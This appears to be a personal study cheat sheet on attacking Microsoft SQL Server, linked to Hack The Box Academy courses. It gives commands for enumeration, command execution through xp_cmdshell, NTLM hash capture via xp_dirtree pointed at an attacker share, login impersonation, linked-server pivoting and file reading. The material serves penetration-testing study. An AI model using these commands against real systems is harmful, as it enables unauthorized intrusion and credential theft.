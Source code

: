 # MSSQL 🐭

[![footprinting](../../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)
[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

<div class="row row-cols-lg-2"><div>

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It's often used by developers when building .NET applications. 

SQL Server Management Studio (SSMS) is a graphical client that can be installed along MSSQL or separately. It allows database administrators, developers, and other users to perform various tasks related to SQL Server databases.

🐲 MSSQL default port is 1433 or 2433 <small>(TCP)</small> and 1434 <small>(UDP)</small>.
</div><div>

Common commands:

```sql!
select name from sys.databases    -- list databases
select name from sys.databases where name not in ('master', 'tempdb', 'model', 'msdb');
use db_name;                      -- select a database
-- list the tables in the database
select table_name from information_schema.tables where table_type = 'base table';
-- list the columns of the table "table_name_here"
select column_name, data_type from information_schema.columns where table_name = 'table_name_here';
```
</div></div>

<hr class="sep-both">

## MSSQL Clients

<div class="row row-cols-lg-2"><div>

#### Windows client - sqlcmd

On Windows, you can use the [sqlcmd](https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-utility?view=sql-server-ver16&tabs=go%2Cwindows&pivots=cs1-bash) utility.

```ps
PS> # -E == Windows Auth | -Q == Query
PS> sqlcmd -E -Q "select name from sys.databases"
PS> sqlcmd -E -i query.sql
PS> sqlcmd -S server_name -U sa -P password [...]
```

If [WMI (DCOM)](/operating-systems/networking/protocols/wmi.md) is available, from a Linux host, you can access `sqlcmd` after popping a powershell:

```shell!
$ impacket-wmiexec username:password@IP -shell-type powershell
```
</div><div>

#### Linux client - sqlsh

You can use [sqlsh](https://en.wikipedia.org/wiki/Sqsh) on Linux.

```shell!
$ sqsh -S IP -U 'username' -P 'password' -h
$ sqsh -S IP -U '.\\username' -P 'password' -h
```

#### Linux client - impacket

You can alternatively use [mssqlclient](/operating-systems/networking/protocols/tools/impacket.md#mssqlclient).

```shell!
$ impacket-mssqlclient username@IP -windows-auth
$ impacket-mssqlclient username:password@IP -windows-auth
```

The SQL Server might user Windows Authentication or Username/Password Authentication. Use or remove`-windows-auth` accordingly.
</div></div>


<hr class="sep-both">

## MSSQL Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

* We can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to run scripts

```shell!
$ nmap -sC -sV --script "*ms-sql*" -p 1433 IP
```

* Look for interesting [Metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) modules.

```shell!
mfs6> search mssql/
```

#### FootHold

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* You can use [Metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) to XXX.

```shell!
mfs6> use mssql_enum_sql_logins
mfs6> set RHOSTS IP
mfs6> set USERNAME username
mfs6> set PASSWORD password
mfs6> set USE_WINDOWS_AUTHENT true
mfs6> run
```

#### Exploitation - Part I

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* [`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) can be used to run commands. It's disabled by default. The command is runs with the same permissions as the server.

```sql!
-- EXECUTE sp_configure 'show advanced options', 1
-- RECONFIGURE
-- EXECUTE sp_configure 'xp_cmdshell', 1
-- RECONFIGURE
xp_cmdshell 'whoami'
```

* We can steal hashes by setting up a [responder](/cybersecurity/red-team/_knowledge/topics/request_grabber.md#responder)

```sql!
EXEC master..xp_dirtree '\\IP\share\'
EXEC master..xp_subdirs '\\IP\share\'
```

* We may be able to impersonate users:

```sql!
-- list users we can impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
-- impersonate user 'sa'
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER; SELECT IS_SRVROLEMEMBER('sysadmin')
REVERT # cancel impersonation
```
</div><div>

#### Exploitation - Part II

* Extended Store Procedures
* CLR Assemblies
* SQL Server Agent Jobs
* External Scripts
* `xp_regwrite` can be used to create registry entries
* User Defined Functions in C/C++ ([ex](https://github.com/mysqludf/lib_mysqludf_sys))

#### Lateral Movement

The current server may be linked to other servers. If we compromise it, we may be able to run SQL queries on linked servers.

* List Linked Servers

```sql!
SELECT srvname, isremote FROM sysservers
```

* Execute a SQL Query on a Linked Server

```sql!
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [your_target_here]
```

#### Additional Notes

* If installed, look for saved credentials in SSMS

* The services often runs as `NT SERVICE\MSSQLSERVER`

* By default, encryption is not enforced when attempting to connect.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Try running the tool as administrator
* HeidiSQL, SQLPro, mssql-cli
* [System Databases](https://learn.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sql-server-ver15)

```sql!
SELECT name FROM master.dbo.sysdatabases
SELECT table_name FROM xxx.INFORMATION_SCHEMA.TABLES
```
</div><div>

Write files

```sql!
-- enable to write
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
-- use it...
-- can read any file
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

SSMS

* File > New > Query with current connection
* Press execute to run the file
* Need to add `GO`?
</div></div>